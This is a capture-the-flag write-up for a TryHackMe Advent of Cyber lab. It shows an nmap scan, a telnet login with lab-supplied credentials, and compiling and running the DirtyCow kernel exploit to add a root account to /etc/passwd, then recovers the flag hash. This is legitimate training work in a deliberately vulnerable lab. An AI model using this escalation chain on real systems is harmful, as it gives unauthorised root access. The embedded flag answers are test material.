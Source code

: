 # _**adventofcyber2 Day 13**_
    
    https://tryhackme.com/room/adventofcyber2

-------------------------------------

                                                 
┌──(astute㉿kali)-[~]
└─$ nmap -sV -A 10.10.142.168
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 20:52 IST
Nmap scan report for 10.10.142.168
Host is up (0.43s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
23/tcp   open     telnet  Linux telnetd
111/tcp  open     rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36363/udp6  status
|   100024  1          37792/tcp   status
|   100024  1          44582/udp   status
|_  100024  1          53539/tcp6  status
9618/tcp filtered condor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


	=> telnet 

-------------------------------------

┌──(astute㉿kali)-[~]
└─$ telnet 10.10.194.225 23
Trying 10.10.194.225...
Connected to 10.10.194.225.
Escape character is '^]'.
HI SANTA!!! 

We knew you were coming and we wanted to make
it easy to drop off presents, so we created
an account for you to use.

Username: santa
Password: clauschristmas

We left you cookies and milk!

    => clauschristmas

----------------------------------------------

$ uname -a
Linux christmas 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"


	=> ubuntu 12.04

-----------------------------------------------
ls
christmas.sh  cookies_and_milk.txt
$ cat cookies_and_milk.txt
/*************************************************
// HAHA! Too bad Santa! I, the Grinch, got here 
// before you did! I helped myself to some of
// the goodies here, but you can still enjoy
// some half eaten cookies and this leftover
// milk! Why dont you try and refill it yourself!
//   - Yours Truly,
//         The Grinch
//*************************************************/

	=> Grinch

--------------------------------------------
`follow up the dirtycow c code souce and execute`

https://github.com/FireFart/dirtycow/blob/master/dirty.c

	=> gcc -pthread dirty.c -o dirty -lcrypt

---------------------------------------------------------

./dirty  
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiIoY9ux7Hzpc:0:0:pwned:/root:/bin/bash

	=> firefart

---------------------------------------------------
`do login with the password we created on ssh`

`ssh firefart@:10.10.130.165`

firefart@christmas:~# cat message_from_the_grinch.txt
Nice work, Santa!

Wow, this house sure was DIRTY!
I think they deserve coal for Christmas, don't you?
So let's leave some coal under the Christmas `tree`!

Let's work together on this. Leave this text file here,
and leave the christmas.sh script here too...
but, create a file named `coal` in this directory!
Then, inside this directory, pipe the output
of the `tree` command into the `md5sum` command.

The output of that command (the hash itself) is
the flag you can submit to complete this task
for the Advent of Cyber!

    - Yours,
        John Hammond
        er, sorry, I mean, the Grinch

      - THE GRINCH, SERIOUSLY

Following the instructions we use touch coal to create the coal file, then run tree | md5sum to get the final answer.

    => 8b16f00dd3b51efadb02c1df7f8427cc

# _Thank You_